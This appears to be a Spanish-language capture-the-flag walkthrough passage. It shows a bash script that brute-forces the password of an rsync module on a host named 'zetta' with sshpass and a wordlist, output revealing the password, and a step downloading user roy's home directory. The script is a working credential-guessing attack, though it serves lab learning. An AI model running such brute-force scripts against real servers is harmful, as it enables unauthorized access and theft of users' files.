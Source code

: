 ```null
rsync -6 rsync://zetta:8730/home_roy
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this 
system may result in civil and/or criminal penalties. 

All activities performed on this device are logged and monitored.

****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".


Password: 
```

Creo un script en bash que aplique la fuerza bruta

```null
 #!/bin/bash
 
 function ctrl_c() {
   exit 1
 }
 
 # Ctrl+C
 trap ctrl_c INT
 
 cat dictionary.txt | while read i; do
   sshpass -p "$i" rsync rsync://roy@zetta:8730/home_roy &>/dev/null
 
   if [ "$(echo $?)" != "5" ]; then
   
     echo -e "\n[+] PASS - $i"
 
   fi
 done; wait
 ```

Encuentra la contraseña

```null
./bruteforce.sh

[+] PASS - computer
```

Descargo todo lo que hay en el directorio personal de ```roy```
